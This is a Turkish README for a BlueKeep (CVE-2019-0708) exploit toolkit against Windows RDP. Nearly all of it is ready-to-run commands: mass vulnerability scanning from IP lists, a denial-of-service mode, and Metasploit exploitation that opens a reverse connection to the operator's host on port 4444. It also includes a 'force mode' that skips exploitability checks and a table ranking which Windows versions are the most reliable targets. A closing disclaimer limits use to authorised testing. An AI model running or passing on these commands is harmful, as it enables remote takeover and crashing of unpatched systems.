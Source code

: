 # BlueKeep (CVE-2019-0708) Exploit Toolkit

Bu toolkit, BlueKeep (CVE-2019-0708) güvenlik açığından etkilenen Windows sistemlerine yönelik çeşitli sömürü ve test araçları içerir.
![alt text](image-1.png)
![alt text](image.png)
## İçindekiler

- [Genel Bilgi](#genel-bilgi)
- [Desteklenen Sistemler](#desteklenen-sistemler)
- [Kurulum](#kurulum)
- [Kullanım](#kullanım)
  - [Vulnerability Scanning](#vulnerability-scanning)
  - [Proof of Concept (PoC)](#proof-of-concept-poc)
  - [Denial of Service (DoS)](#denial-of-service-dos)
  - [Metasploit ile Sömürü](#metasploit-ile-sömürü)
- [Sorun Giderme](#sorun-giderme)
- [Ek Araçlar](#ek-araçlar)
- [Güvenlik Uyarısı](#güvenlik-uyarısı)

## Genel Bilgi

BlueKeep veya CVE-2019-0708, aşağıdaki Windows sistemlerini etkileyen bir RCE (Remote Code Execution) güvenlik açığıdır:

- Windows 2003
- Windows XP
- Windows Vista
- Windows 7
- Windows Server 2008
- Windows Server 2008 R2

Bu güvenlik açığı, kullanıcı doğrulama gerektirmeden (pre-authentication) uzaktan kod çalıştırmaya imkan verir ve NT Authority\system kullanıcı bağlamında çalışabilir.

## Desteklenen Sistemler

| Hedef ID | İşletim Sistemi | Notlar |
|----------|-----------------|--------|
| 0 | Otomatik hedefleme | Her durumda doğru çalışmayabilir |
| 1 | Windows 7 SP1 (6.1.7601 x64) | Kurumsal ortamlarda yaygın |
| 2 | Windows 7 SP0 (6.1.7600 x64) | **TAVSİYE EDİLEN** - Test için en güvenilir |
| 3 | Windows Server 2008 R2 SP1 (6.1.7601 x64) | fDisableCam=0 ayarı gerektirir |
| 4 | Windows Server 2008 R2 SP0 (6.1.7600 x64) | fDisableCam=0 ayarı gerektirir |
| 5 | Windows Server 2008 SP1 (6.0.6001 x64) | fDisableCam=0 ayarı gerektirir |

## Kurulum

### Gereksinimler
```bash
sudo apt install python3 python3-dev python3-pip openssl libssl-dev git
```

### Bağımlılıkları Yükleme
```bash
pip3 install -r requirements_fixed.txt
```

Ya da script ile otomatik yükleme:
```bash
python3 bluekeep_runner.py -i HEDEF_IP
```

## Kullanım

### Vulnerability Scanning

BlueKeep açığını taramak için öncelikle Metasploit ile tarama yapabilirsiniz:

```bash
msfconsole -q
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
set RHOSTS HEDEF_IP
set RPORT 3389
run
```

Ya da sağlanan Python script ile:

```bash
python3 bluekeep_scanner.py -i HEDEF_IP -p 3389
```

Bir IP listesini taramak için:
```bash
python3 bluekeep_scanner.py -f ip_listesi.txt
```

### Proof of Concept (PoC)

PoC modunu çalıştırmak için:
```bash
python3 bluekeep_runner.py -i HEDEF_IP -p 3389 -m poc -v
```

Local runner ile çalıştırmak için (bağımlılıkları kurmadan):
```bash
python3 local_bluekeep_runner.py -i HEDEF_IP -p 3389 -m poc -v
```

### Denial of Service (DoS)

DoS (servis dışı bırakma) modunu çalıştırmak için:
```bash
python3 bluekeep_runner.py -i HEDEF_IP -p 3389 -m dos -a 64 -t 3 -w 2
```

Parametreler:
- `-a`: Hedef mimarisi (32 veya 64 bit)
- `-t`: Saldırı deneme sayısı
- `-w`: Denemeler arasındaki bekleme süresi (saniye)

### Metasploit ile Sömürü

#### Automatic Runner
```bash
python3 metasploit_bluekeep.py -i HEDEF_IP -l YEREL_IP -t 2
```

Parametreler:
- `-i`: Hedef IP adresi
- `-l`: Yerel IP adresi (varsayılan: otomatik tespit)
- `-t`: Hedef ID (varsayılan: 2 - Windows 7 SP0)
- `-p`: Hedef port (varsayılan: 3389)
- `-o`: Yerel bağlantı port (varsayılan: 4444)
- `-f`: Otomatik kontrol atlamayı zorla (varsayılan: Evet)
- `-v`: Ayrıntılı çıktı
- `-d`: Hata ayıklama modu

#### Tarama ve Sömürü
Tek bir komutla tarama ve açık varsa sömürme:
```bash
python3 metasploit_bluekeep.py --scan -i HEDEF_IP -l YEREL_IP -t 2
```

Veya manuel olarak Metasploit'te:
```bash
msfconsole -q
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS HEDEF_IP
set RPORT 3389
set LHOST YEREL_IP
set TARGET 2
run
```

#### Doğrudan Çalıştırma (Force Mode)
```bash
python3 force_bluekeep.py -i HEDEF_IP -l YEREL_IP -t 2
```

veya

```bash
python3 force_exploit.py -i HEDEF_IP -l YEREL_IP -t 2
```

#### Manuel Metasploit Komutları

Manuel komut oluşturmak için:
```bash
python3 bluekeep_direct.py -i HEDEF_IP
```

## Sorun Giderme

### Hedef kontrolü

Hedefin erişilebilir olup olmadığını kontrol edin:
```bash
python3 check_target.py -i HEDEF_IP -p 3389
```

### Metasploit ile ilgili sorunlar

1. Hedef tespit hatası alırsanız:
   ```
   Exploit aborted due to failure: unknown: Cannot reliably check exploitability
   ```
   Çözüm: Force modunu kullanın
   ```
   set ForceExploit true
   set AutoCheck false
   ```

2. Bad-config hatası alırsanız:
   ```
   Exploit aborted due to failure: bad-config: Set the most appropriate target manually
   ```
   Çözüm: Hedef ID değerini 2 olarak ayarlayın (Windows 7 SP0)
   ```
   set TARGET 2
   ```

## Ek Araçlar

### Local Test Environment
```bash
python3 rdp_listener.py -p 8389 -v
```

ve başka bir terminal penceresinde:
```bash
python3 self_test.py -p 8389 -m poc -v
```

### Hedef Tespiti için
```bash
python3 bluekeep_direct.py -i HEDEF_IP -p 3389
```

## Güvenlik Uyarısı

Bu araçlar, sadece yasal penetrasyon testleri ve güvenlik araştırmaları için kullanılmalıdır. İzinsiz sistemlere erişmek yasadışıdır. Bu araçların kötü amaçlı kullanımından doğacak sonuçlardan kullanıcı sorumludur.

---

Developed based on research by [Ekultek](https://github.com/Ekultek) and [NullArray](https://github.com/NullArray)
Enhanced with Metasploit integration and additional tools.
